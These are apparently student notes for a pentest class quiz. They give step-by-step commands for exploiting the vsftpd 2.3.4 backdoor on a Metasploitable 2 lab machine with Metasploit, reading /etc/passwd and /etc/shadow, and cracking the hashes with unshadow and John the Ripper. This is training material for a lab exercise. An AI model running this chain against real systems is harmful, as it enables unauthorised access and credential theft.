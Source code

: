 
[TEAMS FOR PENTEST - Google Sheets](https://docs.google.com/spreadsheets/d/12RaSaeDqXqAs-0qmsCq8A0Tatg3U-gQGLVU1q4VyNuw/edit?gid=0#gid=0)
- Signup sheet for Week 13

## Quiz 3 notes

Both the Kali Machine and Metasploitable 2 are deployed

## Commands to run on kali:

ifconfig

netdiscover

## To change IPs

ifconfig eth0 192.168.x.x

ping IP of Metasploitable machine to verify connectivity

## Scan Target

sudo nmap -sV 192.168.x.x

- Find a service, we chose vsftpd 2.3.4

searchsploit vsftpd 2.3.4

- Verify an exploit is found

## Run Metasploit

~# msfconsole

> search vsftpd

- Get the path of the exploit

> use unix/ftp/vsftpd_234_backdoor

> set RHOST 192.168.x.x

- Set IP of target

> set options

- Make sure no required options are empty

> run

- Verify you get the output command shell session 1

## We're in

Commands to run:

pwd

cd /etc

cat passwd

- copy output from passwd and save to a file

## Saving to a file

nano passwd.txt

## Copy from shadow

cat shadow

- copy output from shadow and save to file

nano shadow.txt

## Unshadow files

sudo unshadow passwd.txt shadow.txt > list.txt

sudo john list.txt

- If everything works, you'll see the passwords.

## Alternative scanning method

Legion